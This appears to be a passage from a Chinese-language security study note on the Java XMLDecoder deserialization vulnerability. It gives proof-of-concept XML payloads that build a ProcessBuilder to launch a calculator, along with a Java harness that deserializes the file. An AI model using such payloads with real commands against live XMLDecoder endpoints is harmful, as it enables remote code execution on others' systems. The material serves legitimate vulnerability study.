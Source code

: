 其实这里有一个小问题，就是在生成和获取xml文档的时候，是通过`writeObject/readObject`获取的，但是我看到这个类并没有实现serializable接口

可能是他的序列化格式和之前我们生成的序列化不太一样，他这里的序列化格式其实就是这个xml文档

# XMLDecoder反序列化漏洞

通过上面的标签可以写一个POC.xml

```
<java version="1.4.0" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>/bin/bash</string>
            </void>
            <void index="1">
                <string>-c</string>
            </void>
            <void index="2">
                <string>open -a Calculator</string>
            </void>
        </array>
        <void method="start"/></void>
</java>
```

这里相当于执行

```
String[] cmd = new String[3];
cmd[0] = "/bin/bash";
cmd[1] = "-c";
cmd[2] = "open /System/Applications/Calculator.app/";
new ProcessBuilder(cmd).start();
```

当然我windows的主机可以直接执行calc，这里主要是想看看array加上调用构造函数怎么写的

最后的poc.xml

```
<java version="1.4.0" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1">
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start"/></void>
</java>
```

通过XMLDecoder反序列化

```
package DawnT0wn;

import java.beans.XMLDecoder;
import java.io.*;

public class XmlDecoder {
    public static void main(String[] args) throws FileNotFoundException {
        XMLDecoder d = new XMLDecoder(new BufferedInputStream(new FileInputStream("Poc.xml")));
        Object result = d.readObject();
        d.close();
    }
}
```
